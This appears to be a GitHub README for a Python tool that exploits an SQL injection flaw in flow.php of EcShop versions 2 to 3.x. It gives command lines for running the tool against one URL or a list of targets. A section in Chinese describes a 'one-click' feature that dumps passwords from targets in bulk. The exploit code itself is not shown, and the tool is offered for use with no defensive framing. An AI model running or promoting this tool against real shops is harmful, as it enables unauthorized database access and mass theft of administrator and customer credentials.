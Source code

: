 # Ecshop-Flow.php-Sql-Inject
EcShop 2-3.x Flow.php Sql Inject


### Use.Eg:

V1

```
python3 ecshop_vul.py -u http://localhost

python3 ecshop_vul.py -f target.txt
```

![图片](https://user-images.githubusercontent.com/95454175/164887400-9201bff9-01c8-494b-8436-c02d466cca25.png)



V2

增加了一键获取密码功能和导入文件批量获取密码
```
python3 ecshop_vul.py -u http://localhost dump

python3 ecshop_vul.py -fdump result.txt
```
![图片](https://user-images.githubusercontent.com/95454175/164909325-3ace99d4-e7b7-4c50-a7fa-682629cf6978.png)
![图片](https://user-images.githubusercontent.com/95454175/164909336-8ced97a1-9da8-431f-9682-415a437ebf5d.png)


联系邮箱：
mcwangjunkai@gmail.com
